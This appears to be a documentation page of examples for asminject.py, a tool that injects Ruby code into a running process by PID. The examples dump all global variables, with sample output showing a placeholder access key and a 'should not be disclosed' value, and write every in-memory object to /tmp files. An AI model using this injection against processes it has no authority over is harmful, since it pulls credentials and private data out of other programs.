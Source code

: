 # asminject.py examples - Ruby
* [Write all global variables to standard out](#write-all-global-variables-to-standard-out)
* [Write a text representation of all objects in memory to disk](#write-a-text-representation-of-all-objects-in-memory-to-disk)

## Write all global variables to standard out

Use [the following Ruby code, which was borrowed from this Gist by Dmitry Yakimenko](https://gist.github.com/detunized/1620634)

```
global_variables.sort.each do |name|; puts "#{name}: #{eval "#{name}.inspect"}
```

e.g.

```
# python3 ./asminject.py 84955 execute_ruby_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --stop-method "slow" \
   --var rubycode "global_variables.sort.each do |name|; puts \\\"#{name}: #{eval \\\"#{name}.inspect\\\"}\\\"; end"
```

Example output:

```
2022-06-07T13:50:06-07:00 - Loop count 10
2022-06-07T13:50:11-07:00 - Loop count 11
$!: nil
...omitted for brevity...
$$: 84955
...omitted for brevity...
$0: "practice/ruby_loop.rb"
...omitted for brevity...
$example_global_var_1: "AKIASADF9370235SUAS0"
$example_global_var_2: "This value should not be disclosed"

```

## Write a text representation of all objects in memory to disk

Use the following Ruby code:

```
$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open("/tmp/rubydump-#{$obj_dump_counter}.dat", "wb") { |file| file.write(e); $obj_dump_counter += 1; }}
```

e.g.

```
python3 ./asminject.py 163017 execute_ruby_code.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var rubycode '$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open(\"/tmp/rubydump-#{$obj_dump_counter}.dat\", \"wb\") { |file| file.write(e); $obj_dump_counter += 1; }}'
```